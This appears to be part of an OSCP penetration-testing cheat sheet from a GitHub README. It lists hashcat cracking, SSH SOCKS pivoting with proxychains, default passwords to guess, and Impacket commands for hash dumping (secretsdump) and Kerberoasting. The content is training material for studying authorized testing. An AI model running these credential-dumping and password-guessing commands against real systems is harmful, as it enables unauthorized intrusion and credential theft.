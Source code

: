 ### Hashcat

[](https://github.com/peterrakolcza/OSCP-Cheatsheet#hashcat)

> [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

```powershell
#Obtain the Hash module number 
hashcat -m <number> hash wordlists.txt --force
```

## Pivoting through SSH

[](https://github.com/peterrakolcza/OSCP-Cheatsheet#pivoting-through-ssh)

```shell
ssh adminuser@10.10.155.5 -i id_rsa -D 9050 #TOR port

#Change the info in /etc/proxychains4.conf also enable "Quiet Mode"

proxychains4 crackmapexec smb 10.10.10.0/24 #Example
```

## Dealing with Passwords

[](https://github.com/peterrakolcza/OSCP-Cheatsheet#dealing-with-passwords)

- When there’s a scope for bruteforce or hash-cracking then try the following,
    - Have a valid username first
    - Don't forget trying `admin:admin`
    - Try `username:username` as first credential
    - If it’s related to a service, try default passwords.
    - The service name is the username, and the same name is used for the password.
    - Use Rockyou.txt
- Some default passwords to always try out!

```js
password
password1
Password1
Password@123
password@123
admin
administrator
admin@123
```

## Impacket

[](https://github.com/peterrakolcza/OSCP-Cheatsheet#impacket)

```shell
smbclient.py [domain]/[user]:[password/password hash]@[Target IP Address] #we connect to the server rather than a share

lookupsid.py [domain]/[user]:[password/password hash]@[Target IP Address] #User enumeration on target

services.py [domain]/[user]:[Password/Password Hash]@[Target IP Address] [Action] #service enumeration

secretsdump.py [domain]/[user]:[password/password hash]@[Target IP Address]  #Dumping hashes on target

GetUserSPNs.py [domain]/[user]:[password/password hash]@[Target IP Address] -dc-ip <IP> -request  #Kerberoasting, and request option dumps TGS
```